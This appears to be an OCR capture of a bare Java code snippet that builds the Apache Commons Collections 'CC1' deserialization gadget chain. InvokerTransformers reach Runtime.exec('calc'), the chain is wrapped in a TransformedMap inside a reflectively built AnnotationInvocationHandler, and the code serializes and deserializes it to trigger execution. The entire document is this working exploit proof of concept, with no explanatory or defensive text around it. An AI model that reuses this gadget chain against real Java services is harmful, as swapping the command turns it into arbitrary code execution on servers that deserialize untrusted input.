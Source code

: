 ```java
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod",
        new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
new InvokerTransformer("invoke"
        , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
Object transform = new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}).transform(Runtime.class);
Object transform1 = new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}).transform(transform);
InvokerTransformer exec = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
HashMap<Object, Object> objectObjectHashMap = new HashMap<>();
Object put = objectObjectHashMap.put("value", "value");
Map<Object, Object> decorate = TransformedMap.decorate(objectObjectHashMap, null, chainedTransformer);
Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> declaredConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
declaredConstructor.setAccessible(true);
Object o = declaredConstructor.newInstance(Retention.class, decorate);
serialize(o);
unserialize("ser.bin");
```

